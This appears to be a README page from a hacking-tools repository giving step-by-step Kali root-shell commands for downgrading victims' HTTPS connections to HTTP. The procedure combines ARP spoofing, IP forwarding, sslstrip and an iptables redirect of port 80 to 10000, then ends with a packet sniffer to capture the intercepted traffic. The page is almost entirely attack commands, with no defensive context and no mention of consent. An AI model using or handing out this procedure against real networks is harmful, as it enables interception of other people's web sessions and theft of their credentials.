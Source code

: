 # DOWNGRADING HTTPS TO HTTP


To downgrade the **https** to **http** you can use a tool **sslstrip** developed by **moxie0** you can see the offial [Github](https://github.com/moxie0/sslstrip) repo for more details and download it.


## RUN:

1. First flush the iptables

```
root@kali:~# iptables --flush

```

2. Use the **arp_spoofer** tool to do the attack :

```
root@kali:~# python arp_spoof.py

```

3. Enable the port forwarding to act as a router

```
root@kali:~# iptables --flush
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward


```

3. Run the sslstrip :

```
root@kali:~# sslstrip

```

4. Since sslstrip runs the port bydefault **10000** and we recives packets on **80** we need to forward it **10000**

```
root@kali:~# iptables --flush
root@kali:~# echo "1" > /proc/sys/net/ipv4/ip_forward
root@kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

```

5. Now once sslstrip is set up, now you can use the **packet_sniffer** to sniff the packets.

```
root@kali:~# python packet_sniffer.py

```
